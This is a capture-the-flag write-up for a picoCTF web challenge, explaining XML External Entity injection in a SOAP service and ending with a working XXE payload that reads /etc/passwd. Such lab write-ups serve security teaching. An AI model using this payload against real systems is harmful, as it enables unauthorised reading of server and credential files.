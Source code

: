 # 🧼 XXE Exploitation in SOAP Web Service (picoCTF)

**Author:** Geoffrey Njogu  
**Category:** Web Exploitation  
**Difficulty:** 🟠 Medium  
**Tags:** `XXE`, `SOAP`, `BurpSuite`, `CTF`, `Web Exploitation`

---

## 📘 Description

> The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

---

## 🚀 Challenge Deployment


---

## 🔥 Vulnerability: XML External Entity Injection (XXE)

The application accepts raw XML input with `Content-Type: application/xml`, and parses it insecurely. This allows an attacker to define external entities (`<!ENTITY>`) that point to sensitive files on the server.

---

## 💣 Exploit Payload

### 🧪 Proof of Concept (Read `/etc/passwd`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<data>
  <ID>&xxe;</ID>
</data>
